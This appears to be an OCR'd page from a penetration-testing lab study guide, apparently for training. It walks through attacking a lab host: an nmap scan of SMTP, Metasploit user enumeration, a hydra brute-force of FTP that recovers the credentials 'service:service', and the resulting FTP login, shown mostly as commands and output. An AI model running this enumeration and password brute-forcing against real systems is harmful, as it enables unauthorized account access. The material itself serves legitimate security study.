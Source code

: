
- 📌 Exploits might not work because the vulnerability may have been patched!
- Enumerate user accounts via **`SMTP` brute-force**

```bash
nmap -sV -p 25 10.2.20.205
	25/tcp open  smtp  Postfix smtpd
```

```bash
msfconsole
```

```bash
use auxiliary/scanner/smtp/smtp_enum
setg RHOSTS 10.2.20.205
set UNIXONLY true
run
```

```bash
# Valid user and service accounts
[+] 10.2.20.205:25 - 10.2.20.205:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
```

```bash
hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.2.20.205 ftp
```

```bash
[21][ftp] host: 10.2.20.205   login: service   password: service
```

![](.gitbook/assets/image-20230424144709605.png)

> 📌 FTP credentials found:
>
> - `service`:`service`

```bash
ftp 10.2.20.205
# Use service:service
```

![](.gitbook/assets/image-20230424144745088.png)
